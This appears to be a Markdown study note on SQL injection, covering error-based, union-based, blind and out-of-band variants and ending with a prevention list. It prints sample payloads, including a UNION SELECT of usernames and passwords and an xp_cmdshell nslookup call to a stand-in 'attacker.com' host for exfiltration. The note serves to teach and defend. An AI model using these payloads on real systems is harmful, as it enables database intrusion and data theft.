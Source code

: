 # SQL Injection

SQL Injection(SQLi) is a code injection that exploits a vulnerability in an application by manipulating SQL queries. It allows attackers to interfere with the queries that an application makes to its database.

When user inputs is not sanitized properly, the attackers can inject malicious SQL code into input fields such as username, password, etc and gain unauthorised access or manipulate the database.

![SQL Injection](../images/sqli.png)

## Rise in the SQL Injection

1. Bypass authentication
2. Read sensitive data such as usernames and passwords
3. Modify or delete data
4. Execute admin functionality

## Types of SQL Injection

1. Classic / In-band SQLi
The simplest and most common type. The attacker uses the same communication channel to both launch the attack and gather the results.

**Types in Classic SQLi:**

a. Error-based SQLi
Relies on database error messages to extract data.
Example: ' OR 1=1 --

Error reveals info like:
I.Database type
II.Table names
III.Column names

b. Union-based SQLi
Uses the UNION SQL operator to combine results of two or more SELECT statements.
Allows extracting data from other tables.
Example: ' UNION SELECT username, password FROM users --

2. **Blind SQLi**
when the application doesn't display errors or DB responses, but we can observe the behaviour cahnge such as delay, response content, redirection

**Types in Blind SQLi**

a. Boolean-based (content-based) Blind SQLi
Based on true/false conditions.
Example:
' AND 1=1 --  → returns true  ->page loads normally  
' AND 1=2 --  → returns false ->different behavior

b. Time-based Blind SQLi
Uses SQL functions like SLEEP() or WAITFOR DELAY to infer if a condition is true.
Useful when there’s no visible response difference.

Example: ' IF(1=1, SLEEP(5), 0) --

3. Out-of-band SQLi
Used when neither in-band nor blind methods work. This type depends on the DB server's ability to make DNS or HTTP requests to external systems.
Example: '; EXEC xp_cmdshell('nslookup attacker.com') --
It can exfiltrate data to attacker-controlled servers.

## Real world examples

1. Login Page Bypass
2. Dump data using Union

## Prevention

1. Use Prepared Statements / Parameterized Queries
example in PHP (PDO), Python, Java, etc.
2. Use ORM Libraries (like Sequelize, SQLAlchemy, Hibernate)
3. Input Validation and Sanitization
4. Least Privilege for DB Accounts
5. Web Application Firewall (WAF)
6. Regular Security Testing / Penetration Testing
